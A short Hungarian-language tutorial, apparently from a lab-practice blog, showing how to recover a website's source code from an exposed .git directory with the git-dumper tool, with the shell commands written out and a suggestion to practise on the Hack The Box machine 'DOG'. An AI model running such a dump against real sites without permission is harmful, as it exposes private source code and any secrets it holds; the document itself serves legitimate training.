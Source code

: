 
Néha előfordul, hogy egy weboldal **git-es aldomainnel** rendelkezik, és az ügyetlen beállítások miatt lehetőség nyílik a forráskód kinyerésére. Ez nem csak izgalmas, de hasznos gyakorlat is lehet, ha az ember a HTB-n (Hack The Box) vagy más laborkörnyezetben tanul.

**Lépésről lépésre:**
```shell 
mkdir dump 
virtualenv env 
source env/bin/activate 
pip3 install git-dumper 
git-dumper http://domain.com/ dump
git restore .
```
 **Mit csinálunk itt?**

- Létrehozunk egy `dump` könyvtárat, ahová a fájlok kerülnek.
    
- Elkülönített Python környezetet hozunk létre (`virtualenv`), hogy a telepített csomagok ne kavarjanak össze mást a rendszerünkön.
    
- Aktiváljuk a környezetet, majd telepítjük a **git-dumper** eszközt.
    
- A `git-dumper` segítségével letöltjük a `.git` mappát és tartalmát.
    
- Végül a `git restore .` paranccsal visszaállítjuk az eredeti projektfájlokat.
    

💡 **Tipp:** Ez remekül gyakorolható például a HTB “DOG” nevű gépén.
